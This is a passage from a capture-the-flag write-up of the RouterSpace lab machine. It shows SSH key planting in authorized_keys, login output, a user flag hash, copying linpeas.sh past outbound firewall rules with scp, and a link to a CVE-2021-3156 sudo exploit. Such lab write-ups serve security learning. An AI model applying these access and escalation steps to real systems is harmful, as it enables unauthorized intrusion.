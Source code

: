 ```bash
|     . +.o=*=.   |
|    . . .ooo=.   |
|     .     . oo  |
+----[SHA256]-----+
```

* Appended the id_rsa.pub to /home/paul/.ssh/authorized_keys on routerspace.htb
{{<figure src="/images/routerspace/not_sure_got_created_keys.png" title="Appending keys to authorized_keys on routerspace.htb">}}


* Logged in using id_rsa (private key)

```bash
sudo ssh -i tmp paul@routerspace.htb
[sudo] password for babayaga: 
The authenticity of host 'routerspace.htb (10.129.152.7)' can't be established.
ECDSA key fingerprint is SHA256:M4jDfH65U/Fw7jjmKhTZcb9LgW/gi23OjcLjM1bA5UY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'routerspace.htb,10.129.152.7' (ECDSA) to the list of known hosts.
Enter passphrase for key 'tmp': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)
```

{{<figure src="/images/routerspace/LoginUser.png" title="UserLogin">}}

### User Flag
```bash
paul@routerspace:~$ cat user.txt 
3b53f478b34b94d32ea6b38ed6815a30
```

## Privilege Escalation

* IP tables config prohibiting outgoing request, so could not get a reverse shell and can't use curl or wget to tranferfile by creating a web server locally

{{<figure src="/images/routerspace/No_outgoing_Port.png" title="Outbound connection banned maybe some iptables config">}}
* Transfered the linpeas.sh using scp as curl and wget wouldn't have worked because of iptables config

```bash
┌─[✗]─[babayaga@babayaga-virtualbox]─[/opt/Scripts]
└──╼ $sudo scp -i /home/babayaga/.ssh/tmp linpeas.sh paul@routerspace.htb:/home/paul/
Enter passphrase for key '/home/babayaga/.ssh/tmp': 
linpeas.sh                                    100%  746KB  36.8KB/s   00:20   
```

### Executing Linpeas.sh
{{<figure src="/images/routerspace/priv_esc1.png" title="Vulnerable Sudo version">}}

#### Sudo version exploit

[CVE-2021-3156/exploit_nss.py at main · worawit/CVE-2021-3156 · GitHub](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py)
